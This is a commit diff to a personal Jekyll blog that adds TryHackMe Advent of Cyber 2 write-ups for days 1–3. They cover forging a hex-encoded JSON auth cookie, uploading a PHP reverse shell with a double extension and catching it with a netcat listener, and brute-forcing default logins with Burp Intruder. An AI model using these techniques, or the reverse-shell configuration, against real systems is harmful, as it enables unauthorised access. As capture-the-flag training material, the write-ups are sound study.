

Before and after one commit to Juliette1012/Juliette1012.github.io, a Jekyll site: the page built from _posts/AdventOfCyber2/2020-12-01-AdventOfCyber2-Day1.md, in a window 1280 px wide and 1400 px high, scrolled down 744 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
AdventOfCyber2 posts day 1, 2 and 3

````diff
--- a/_posts/AdventOfCyber2/2020-12-01-AdventOfCyber2-Day1.md
+++ b/_posts/AdventOfCyber2/2020-12-01-AdventOfCyber2-Day1.md
@@ -11,7 +11,7 @@ featured-image-alt: adventOfCyber2
 
 We deploy the machine and go on the website with the IP address.
 
-* What is the name of the cookie used for authentication?
+## What is the name of the cookie used for authentication?
 
 We register on the website with a random login and password. For example :
 ```
@@ -22,28 +22,26 @@ password : root0
 We log in and with `F12` we acess to the cookies.
 The name of the cookie used for authentification is **auth**.
 
-* In what format is the value of this cookie encoded ?
+## In what format is the value of this cookie encoded ?
 
 The value is :
 `7b22636f6d70616e79223a22546865204265737420466573746976616c20436f6d70616e79222c2022757365726e616d65223a226a756a75227d"`
 This cookie is encoded in **hexadecimal**.
 
-* Having decoded the cookie, what format is the data stored in ?
+## Having decoded the cookie, what format is the data stored in ?
 
 We use : https://gchq.github.io/CyberChef/ and we put `from hex` to decode the cookie.
-We found :
-`{"company":"The Best Festival Company", "username":"root"}`
+We found : `{"company":"The Best Festival Company", "username":"root"}`
 It's a Java Script Object, so the data are stored in **json**.
 
-* Figure out how to bypass the authentication.
-What is the value of Santa's cookie ?
+## Figure out how to bypass the authentication.
+ * What is the value of Santa's cookie ?
 
-We put
-`{"company":"The Best Festival Company", "username":"santa"}` into an hexadecimal encoder and find this value :
+We put `{"company":"The Best Festival Company", "username":"santa"}` into an hexadecimal encoder and find this value :
 
-**7b22636f6d70616e79223a22546865204265737420466573746976616c20436f6d70616e79222c2022757365726e616d65223a2273616e7461227d**
+`7b22636f6d70616e79223a22546865204265737420466573746976616c20436f6d70616e79222c2022757365726e616d65223a2273616e7461227d`
 
-* Now that you are the santa user, you can re-activate the assembly line !
-What is the flag you're given when the line is fully active ?
+## Now that you are the santa user, you can re-activate the assembly line !
+What is the flag you're given when the line is fully active ?**
 
 We put this new cookie instead of the previous one, activate all the lines and refresh the page to see the flag : **THM{MjY0Yzg5NTJmY2Q1NzM1NjBmZWFhYmQy}**
--- /dev/null
+++ b/_posts/AdventOfCyber2/2020-12-02-AdventOfCyber2-Day2.md
@@ -0,0 +1,85 @@
+---
+layout: post
+title: AdventOfCyber2 Day 2
+categories: [Write-Ups, AdventOfCyber]
+tags: [TryHackMe, AdventOfCyber2]
+featured-image:  adventOfCyber2/icon.png
+featured-image-alt: adventOfCyber2
+---
+
+# Day 2 : The Elf Strikes Back !
+
+```
+At the bottom of the dossier is a sticky note containing the following
+message:
+
+    For Elf McEager:
+    You have been assigned an ID number for your audit of the system:
+	ODIzODI5MTNiYmYw . Use this to gain access to the upload section of
+	the site.
+    Good luck!
+```
+
+We deploy the machine, obtain the IP address : `10.10.4.190`
+
+## What string of text needs adding to the URL to get access to the upload page?
+
+We navigate tot the displayed IP address inn our browser and access to the upload page by adding this string to the URL :
+`/?id=ODIzODI5MTNiYmYw` because our ID is ODIzODI5MTNiYmYw.
+
+## What type of file is accepted by the site?
+`<input type="file" id="chooseFile" accept=".jpeg,.jpg,.png">`
+**image**
+
+## Now we have to bypass the filter and upload a reverse shell.
+
+* In which directory are the uploaded files stored?
+
+We use the file **php-reverse-shell.php** and rename it **php-reverse-shell.jpeg.php**.
+In this one, we put our IP OpenVPN address and the port where we want to listen :
+```
+set_time_limit (0);
+$VERSION = "1.0";
+$ip = '10.8.87.25';  // CHANGE THIS
+$port = 443;       // CHANGE THIS
+$chunk_size = 1400;
+$write_a = null;
+$error_a = null;
+$shell = 'uname -a; w; id; /bin/sh -i';
+$daemon = 0;
+$debug = 0;
+```
+
+We submit it in the website, and go on `http://10.10.4.190/uploads/` and find our file.
+So the uploaded files are stored in **/uploads/**.
+
+## What is the flag in /var/www/flag.txt?
+
+We listen our port with the command : `sudo nc -lvnp 443`
+We launch our file in the directory `/uploads/` on the website.
+We can now execute shell command, so we do that below to find the flag :
+
+```
+sh-4.4$ cat /var/www/flag.txt
+cat /var/www/flag.txt
+
+
+==============================================================
+
+
+You've reached the end of the Advent of Cyber, Day 2 -- hopefully you're enjoying yourself so far, and are learning lots!
+This is all from me, so I'm going to take the chance to thank the awesome @Vargnaar for his invaluable design lessons, without which the theming of the past two websites simply would not be the same.
+
+
+Have a flag -- you deserve it!
+THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}
+
+
+Good luck on your mission (and maybe I'll see y'all again on Christmas Eve)!
+ --Muiri (@MuirlandOracle)
+
+
+==============================================================
+```
+
+The flag is **THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}**.
--- /dev/null
+++ b/_posts/AdventOfCyber2/2020-12-03-AdventOfCyber-Day3.md
@@ -0,0 +1,47 @@
+---
+layout: post
+title: AdventOfCyber2 Day 2
+categories: [Write-Ups, AdventOfCyber]
+tags: [TryHackMe, AdventOfCyber2]
+featured-image:  adventOfCyber2/icon.png
+featured-image-alt: adventOfCyber2
+---
+
+# Day 3 : Christmas Chaos
+
+Deploy your AttackBox (the blue "Start AttackBox" button) and the tasks machine (green button on this task) if you haven't already. Once both have deployed, open Firefox on the AttackBox and copy/paste the machines IP (MACHINE_IP) into the browser search bar.
+
+We deploy the machine and go on the website with the machine IP.
+
+## Use BurpSuite to brute force the login form.
+* Use the following lists for the default credentials:
+
+```
+Username || Password
+root	 ||	root
+admin	 ||	password
+user	 ||	12345
+```
+
+## Use the correct credentials to log in to the Santa Sleigh Tracker app.
+> Don't forget to turn off Foxyproxy once BurpSuite has finished the attack!
+
+We use BurpSuite, try to log with some random credentials.
+This captured request will show up in the Proxy tab in BurpSuite.
+We right-click it, and click "Send to Intruder", in this tab `Intruder` we choose `Clustering Bomb` attack type.
+
+Then, in the positions tab, we choose to set 2 payloads : one for login, and one for password.
+In the first payload list, we add `root` `admin` and `user`.
+In the second payload, we add `root` `password` and `12345`.
+
+Then, we click on `Start Attack`.
+The attack shows us that the lenght of the response of the website is less higher than the others for the credentials :
+`admin` with `12345`.
+
+
+
+## What is the flag?
+
+We log on the website with this previously credentials, and discover the flag.
+
+**THM{885ffab980e049847516f9d8fe99ad1a}**
````
